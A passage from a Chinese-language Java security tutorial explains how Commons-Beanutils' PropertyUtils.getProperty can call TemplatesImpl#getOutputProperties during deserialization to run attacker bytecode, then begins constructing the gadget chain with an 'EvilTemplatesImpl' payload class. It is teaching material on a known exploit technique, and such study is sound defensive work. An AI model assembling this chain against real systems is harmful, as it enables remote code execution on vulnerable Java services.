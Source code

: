 ```php
        throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
    }
    catch ( final InvocationTargetException ite ) {
        throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
    }
    catch ( final NoSuchMethodException nsme ) {
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```

这个方法传入两个对象，如果`this.property`为空，则直接比较这两个对象；如果`this.property`不为空，则用`PropertyUtils.getProperty`分别取这两个对象的`this.property`属性，比较属性的值。

上一节我们说了，`PropertyUtils.getProperty`这个方法会自动去调用一个JavaBean的getter方法，这个点是任意代码执行的关键。有没有什么getter方法可以执行恶意代码呢？

此时回到《Java安全漫谈》第13章，其中在追踪分析`TemplatesImpl`时，有过这么一段描述：

> 我们从`TransletClassLoader#defineClass()`向前追溯一下调用链：
> 
> ```php
> TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
> ```
> 
> 追到最前面两个方法`TemplatesImpl#getOutputProperties()`、`TemplatesImpl#newTransformer()`，这两者的作用域是public，可以被外部调用。我们尝试用`newTransformer()`构造一个简单的POC...

看到这个`TemplatesImpl#getOutputProperties()`了吗？这个`getOutputProperties()`方法是调用链上的一环，它的内部调用了`TemplatesImpl#newTransformer()`，也就是我们后面常用来执行恶意字节码的方法：

```php
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```

而`getOutputProperties`这个名字，是以`get`开头，正符合getter的定义。

所以，`PropertyUtils.getProperty( o1, property )`这段代码，当o1是一个`TemplatesImpl`对象，而`property`的值为`outputProperties`时，将会自动调用getter，也就是`TemplatesImpl#getOutputProperties()`方法，触发代码执行。

反序列化利用链构造
---------

了解了原理，我们来构造利用链。

首先还是创建TemplateImpl：

```php
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{
    ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```
